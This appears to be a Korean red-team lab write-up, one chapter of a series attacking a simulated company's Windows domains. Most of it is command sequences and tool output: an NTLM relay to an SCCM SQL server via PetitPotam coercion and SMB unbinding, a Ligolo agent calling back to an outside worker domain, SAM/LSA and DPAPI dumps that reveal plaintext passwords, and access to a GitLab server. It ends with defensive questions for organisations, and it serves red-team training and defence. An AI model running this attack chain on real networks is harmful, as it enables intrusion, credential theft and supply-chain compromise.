





# 10. 권한 상승 및 목표 달성

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 윈도우 SMB Unbinding을 통한 현실적인 NTLM Relay 공격
* Ligolo-NG
* SAM/LSA 덤프
* DPAPI 덤프
* Dynamic Port Forwarding을 통한 SOCKS 프록시 사용

<figure><figcaption></figcaption></figure>

SESSIONJH01의 파일 시스템을 뒤져보면 꽤 많은 DEV와 KR 유저들의 홈 디렉토리가 보인다. DPAPI 덤프를 하면 좋겠지만, 도메인 관리자가 아닌 로컬 관리자로 DPAPI덤프를 떠봤자 현재 유저의 계정 정보만 얻을 수 있다.

이전에 DEV 도메인의 블러드하운드를 확인했을 때 DEV에 SCCM 관련된 호스트들이 보였었다. 최근 나온 Misconfiguration Manager를 이용해 SCCM 관련된 공격을 진행해본다.

1. SESSIONJH01에서 모든 SCCM 관련된 호스트들의 SMB, MSSQL 등의 포트에 접근 가능하다
2. SESSIONJH01에 몇명의 유저들이 있지만, 모두 RDP만 사용중이다

1번과 2번 덕분에 NTLM Relay를 이용한 TAKEOVER1, TAKEOVER2 등의 TTP를 사용해도 무방할 것 같다. SMB를 Unbind 한 뒤, 리모트 포트 포워딩을 구축하고, Ligolo-ng로 프록시(는 아니지만)를 구축한 뒤, TAKEOVER 2를 활용한 SMB to SMB NTLM Relay 공격을 진행한다.

TAKEOVER2 공격은 SCCM의 SITESRV나 MGMT 서버 머신 계정들이 SCCM 데이터베이스 서버에 로컬 관리자 권한을 갖고 있어서 사용 가능한 공격이다. 강제 인증과 NTLM Relay 공격을 통해 SITESRV/MGMT 머신 계정의 맥락을 얻어낸 뒤, SCCM 데이터베이스에서 SAM/LSA 등을 덤프하는 공격이다.


<figure><figcaption></figcaption></figure>

공격은 다음과 같은 순서로 이뤄진다. (0. SESSIONJH01의 포트 445 SMB Unbind)

1. Ligolo-NG 구축 (SOCKS도 가능하지만, 속도와 더블 SOCKS를 사용해야해서 Ligolo-NG로 대체)
2. SESSIONJH01의 포트 445에 리모트 포트 포워딩 구축
3. SCCM-SITESRV로 강제 인증 (Petitpotam, PrintSpooler, DFSCoerce, 등)
4. SCCM-SITESRV에서 Sliver 팀서버로 Net-NTLM 콜백
5. NTLM Relay, 대상은 SCCM-SQL의 SMB 서비스
6. NTLM Relay를 통해 SCCM-SQL에게 SOCKS Proxy 구축
7. SOCKS를 통해 SCCM-SQL에게 SITESRV$ 머신 계정으로 접근, SAM/LSA 덤프

실제 공격은 아래와 같이 이뤄진다. 리다이렉터에 이미 Ligolo-NG 콜백 관련된 코드가 있기 때문에, 업로드 후 실행만 하면 된다.

```
// 1. Ligolo-NG 구축  
sliver (WORTHWHILE_PROMOTION) > upload /root/ligolo-agent.exe "c:\\windows\\temp\\agent.exe"

sliver (WORTHWHILE_PROMOTION) > execute c:\\windows\\system32\\cmd.exe /c "c:\\windows\\temp\\agent.exe -ignore-cert -connect https://tiny-bar-f413.fonts-cdn.workers.dev -ua "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.3339.396 Safari/537.36" "

// 2. SESSIONJH01의 SMB Unbind 
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 check
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 stop

// 3. 리모트 포트 포워딩 445 Bind 
sliver (WORTHWHILE_PROMOTION) > rportfwd add -b 0.0.0.0:445 -r 127.0.0.1:445

// 4. SITESRV -> SCCM-SQL로 NTLM Relay 구축  
root@ip-10-1-14-169:/# ntlmrelayx.py -t smb://10.2.100.13 -socks -socks-port 1080 -smb2support

// 5. SITESRV에 강제 인증
root@ip-10-1-14-169:/# python3 /opt/PetitPotam/PetitPotam.py -u jeong.sangmi -p strawberry -d kr.rt.local 10.2.100.100 10.2.100.15

// 6. NTLM Relay 성공, SCCM-SQL에 SOCKS 구축 
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 127.0.0.1, attacking target smb://10.2.100.13
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.100.13:445  ...  OK
[*] Authenticating against smb://10.2.100.13 as DEV/SCCM-SITESRV$ SUCCEED
[*] SOCKS: Adding DEV/SCCM-SITESRV$@10.2.100.13(445) to active SOCKS connection. Enjoy

// 7. SOCKS를 이용해 SCCM-SQL에 SAM/LSA 덤프 
root@ip-10-1-14-169:~# proxychains -f /etc/proxychains4-1080.conf secretsdump.py 'DEV/SCCM-SITESRV$@10.2.100.13' -no-pass -skip-sam

[*] DPAPI_SYSTEM 
dpapi_machinekey:0xfe0c118128b665ba994a13ca4c6c0806f1a73511
dpapi_userkey:0x65f3ee89e9c6b1f60690a2022a680dafa4096bdf
[*] NL$KM 
 0000   C8 63 E4 39 02 45 B7 A7  FD 55 FB 4F 70 08 F9 3B   .c.9.E...U.Op..;
 0010   BB F8 C5 15 FD 32 C4 40  AC D0 CF 0F 3A 1C 32 1D   .....2.@....:.2.
 0020   51 F1 03 3A D5 66 30 67  B7 02 A3 0F AB D0 68 61   Q..:.f0g......ha
 0030   DA CF DA DF FE A4 46 90  17 11 20 FD F9 45 A0 E3   ......F... ..E..
NL$KM:c863e4390245b7a7fd55fb4f7008f93bbbf8c515fd32c440acd0cf0f3a1c321d51f1033ad5663067b702a30fabd06861dacfdadffea44690171120fdf945a0e3
[*] _SC_MSSQLSERVER 
dev\sqlsccmsvc:Password123
```

맨 마지막에 SQLSCCMSVC 서비스 계정의 평문 비밀번호가 나오는데, 해당 계정은 도메인 관리자 소속이다.

```
# proxychains nxc smb 10.2.100.10 -u sqlsccmsvc -p Password123 -d dev.raccoon 
root@ip-10-1-14-169:~# proxychains nxc smb 10.2.100.10 -u sqlsccmsvc -p Password123 -d dev.raccoon
SMB         10.2.100.10     445    DDC01            [*] Windows Server 2022 Build 20348 x64 (name:DDC01) (domain:dev.raccoon) (signing:True) (SMBv1:False) 
SMB         10.2.100.10     445    DDC01            [+] dev.raccoon\sqlsccmsvc:Password123 (Pwn3d!) 
```

도메인 관리자의 권한을 얻었으니, 다시 SESSIONJH01로 돌아가 이번에는 DPAPI 덤프를 진행한다. 해당 점프 서버는 많은 수의 개발자 및 IT 관리자들이 사용하는 서버다. 그 중 분명 비밀번호 관리 소프트웨어 (Bitwarden, 1Password, KeePass, 등)을 사용하지 않는 유저도 있을 것이다.

DPAPI 덤프의 경우 해당 머신의 모든 유저들의 마스터 키를 바탕으로 비밀들을 얻으려면 도메인 관리자 권한이 필요하다. 때문에 이를 바탕으로 DPAPI 덤프를 하면 특정 머신에 등록되어 있는 모든 유저들의 비밀을 얻을 수 있다.

SESSIONJH01의 SMB를 다시 bind 시킨 다음, DPAPI 덤프를 진행한다.

```
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 start

root@ip-10-1-14-169:~# netexec smb 10.2.100.100 -u sqlsccmsvc -p Password123 --dpapi                                                                      
SMB         10.2.100.100    445    SESSIONJH01      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SESSIONJH01) (domain:dev.raccoon) (signing:False) (SMBv1:False)
SMB         10.2.100.100    445    SESSIONJH01      [+] dev.raccoon\sqlsccmsvc:Password123 (Pwn3d!)
SMB         10.2.100.100    445    SESSIONJH01      [+] Loading domain backupkey from nxcdb...
SMB         10.2.100.100    445    SESSIONJH01      [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.2.100.100    445    SESSIONJH01      [+] Got 8 decrypted masterkeys. Looting secrets...
SMB         10.2.100.100    445    SESSIONJH01      [Banerjee.Sunil][FIREFOX] http://10.2.110.20 - Banerjee.Sunil:tryaccess
```

SESSIONJH01 세션 호스트에서 Banerjee.Sunil이라는 유저가 10.2.110.20 호스트에 사용하던 계정 정보가 나왔다. 이 유저가 US, KR, RT, DEV에 모두 없는 걸로 보아 IN (in.dev.raccoon) 도메인 유저일 가능성이 높다. 확인해보자.

```
sliver (WORTHWHILE_PROMOTION) > make-token -u banerjee.sunil -p tryaccess -d in.dev.raccoon

[*] Successfully impersonated in.dev.raccoon\banerjee.sunil. Use `rev2self` to revert to your previous token.

sliver (WORTHWHILE_PROMOTION) > ls \\\\idc01.in.dev.raccoon\\SYSVOL

\\idc01.in.dev.raccoon\SYSVOL\ (1 item, 0 B)
============================================
Lrw-rw-rw-  in.dev.raccoon -> C:\Windows\SYSVOL\domain  0 B  Fri Jan 24 13:35:10 +0900 2025
```

IN의 도메인 컨트롤러인 idc01.in.dev.raccoon의 SYSVOL 쉐어에 접근이 가능한 것으로 보아 IN 도메인의 유저 중 하나라는 것을 알 수 있다. IN에도 블러드하운드를 실행할 수 있겠지만, 일단은 레드팀의 목적을 모두 달성한 것 같기 때문에 먼저 10.2.110.20를 방문한다.

Ligolo-ng를 사용해서 10.2.110.20과 관련된 포트를 방문해보면 Gitlab이 보인다.

<figure><figcaption></figcaption></figure>

앞서 DPAPI로 얻은 Banerjee.Sunil 유저의 계정 정보로 로그인을 하면 라쿤테크 외주 프로젝트인 라쿤앱과 라쿤 플랫폼의 소스코드를 담은 프로젝트들이 보인다. Banerjee.Sunil 유저는 해당 프로젝트의 PM으로서, 리포들에 대한 모든 권한을 갖고 있다.


<figure><figcaption></figcaption></figure>

공격자는 이를 바탕으로 소스 코드를 탈취하거나, Gitlab CI/CD 프로세스를 통해 소스 코드를 변환할 수도 있다. 이를 통해 라쿤 테크 및 라쿤 테크의 고객사들을 향한 공급망 공격도 가능할 것이다.


## 우리 회사는

* DPAPI 덤프에 대항하기 위해 비밀번호 관리 솔루션 혹은 서버를 운영하고 있는가?
* 문서 서버나 유저들의 데스크탑에 `비번.txt` 등으로 안전하지 못하게 비밀번호를 관리하고 있는 것은 아닌가?
* PAM 서버 등을 운영하며 MFA를 적용했는가?
* CI/CD, 소스 코드 관리 서버 등에 접근할 때 IdP, SSO, MFA 등을 적용했는가?


최종적으로 라쿤 테크를 향한 레드팀은 다음의 공격 경로를 통해 이뤄졌다.

<figure><figcaption></figcaption></figure>


